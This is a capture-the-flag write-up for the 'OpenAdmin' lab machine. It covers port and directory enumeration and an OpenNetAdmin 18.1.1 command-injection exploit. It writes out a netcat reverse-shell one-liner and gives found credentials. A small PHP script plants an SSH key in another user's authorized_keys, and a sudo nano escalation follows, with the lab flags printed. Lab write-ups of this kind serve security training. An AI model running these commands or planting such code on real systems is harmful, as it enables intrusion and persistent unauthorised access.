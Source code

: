 OpenAdmin
===
![OpenAdmin](https://lassa97.github.io/imgs/OpenAdmin.png)

---
### Nmap
We start with an `nmap` scan:

> lassault@kakia:~$ nmap -sV -sC -oA OpenAdmin 10.10.10.171

```
# Nmap 7.80 scan initiated Wed Jan  8 18:44:48 2020 as: nmap -sV -sC -oA OpenAdmin 10.10.10.171
Nmap scan report for 10.10.10.171
Host is up (0.069s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  8 18:46:21 2020 -- 1 IP address (1 host up) scanned in 92.99 seconds
```

We find `ssh` on port 22 and `http` on port 80.

---

### Web Enumeration
We use `gobuster` to find some useful directories that we can exploit:

> lassault@kakia:~$ gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o OpenAdmin.dir

```
===============================================================
[+] Url:            http://10.10.10.171
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/08 17:53:21 Starting gobuster
===============================================================
/music (Status: 301)
/artwork (Status: 301)
===============================================================
2020/01/08 18:51:04 Finished
===============================================================
```
Going to http://10.10.10.171/music/ shows a login button. We click it and we are redirected to [this](http://10.10.10.171/ona/). It is the OpenNetAdmin Tool running the 18.1.1 version.

---

### Command Injection
Doing some research, we find there is a Remote Code Execution vulnerability (OpenNetAdmin 18.1.1 - Command Injection Exploit).

We take the [source code](https://packetstormsecurity.com/files/155406/opennetadmin1811-exec.txt) and we create a reverse shell. First, we open a local port and then we write this command as input of the exploit.

> lassault@kakia:~$ nc -lvnp 51111
>
> lassault@kakia:~$ ./exploit.sh http://10.10.10.171/ona/
>
> lassault@kakia:~$ mkfifo /tmp/flipper; nc 10.10.15.182 51111 < /tmp/flipper | /bin/sh > /tmp/flipper; rm /tmp/flipper;

---

### Jimmy

After some enumeration, we find some creds (__jimmy:n1nj4w4rri0R!__) in */opt/ona/www/local/config/database_settings.inc.php*
Also, we find two users (__jimmy__ and __joanna__) and a common group (__internal__).
Now, we connect via `ssh` using the creds of __jimmy__:

> lassault@kakia:~$ ssh jimmy@10.10.10.171

---

### Joanna

Once we are logged, we find three local ports open.

> jimmy@openadmin:~$ netstat -nputa

```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -
```

We have the port 53 (*DNS*), the port 3306 (*MySQL*) and the port 52846. Then, we find under */var/www* directory a folder called __internal__. The user __jimmy__ is the owner and the group __internal__ has all the permissions in that directory. Inside it, we find the source code of the *PHP*s that are served in the port 52846.
1) __index.php__: Has a login form with the SHA512 of another pass of __jimmy__.
2) __main.php__: Displays the private key of __joanna__ using *shell_exec()*.
3) __logout.php__: A simple logout.

We decide to create a `ssh` tunnel to display it in our browser:

> lassault@kakia:~$ ssh jimmy@10.10.10.171 -L 55555:127.0.0.1:52846

And going to http://127.0.0.1:55555, we see the login form. Because we have all the permissions in the __internal__ directory, we've decide to create our own PHP that adds a public key to the *authorized_keys* of __joanna__ using the *shell_exec()* function to execute commands.

__flipper.php__

```php
<?php
    shell_exec("cat /var/www/internal/fake.txt >> /home/joanna/.ssh/authorized_keys");
    $keys = shell_exec("cat /home/joanna/.ssh/authorized_keys");
    echo "<pre>" . $keys . "</pre>";
 ?>
```

Then, we generate a new `ssh` key using `ssh-keygen` and we paste the public key inside *fake.txt*. We change the group own of *flipper.php* to __internal__ using `chgrp`. After that, we go to http://127.0.0.1:55555/flipper.php and we can see that we have added our public key to the *authorized_keys* of __joanna__.

Finally, we login with `ssh` using our private key and we have the user flag.

> lassault@kakia:~$ ssh joanna@10.10.10.171 -i OpenAdmin.key
>
> joanna@openadmin:~$ cat /home/joanna/user.txt
`HTB{c9b2cf07d40807e62af62660f0c81b5f}`

---

### Root
We are going to use [GTFOBins](https://gtfobins.github.io/) to gain privilegies. We find that __joanna__ can edit the file */opt/priv* owned by __root__ without password.

> joanna@openadmin:~$ sudo -l
>
`sudo /bin/nano /opt/priv`

Following the instructions for `nano`, we have our root shell and we can own the root flag.

> root@openadmin:~# cat /root/root.txt
`HTB{2f907ed450b361b2c2bf4e8795d5b561}`
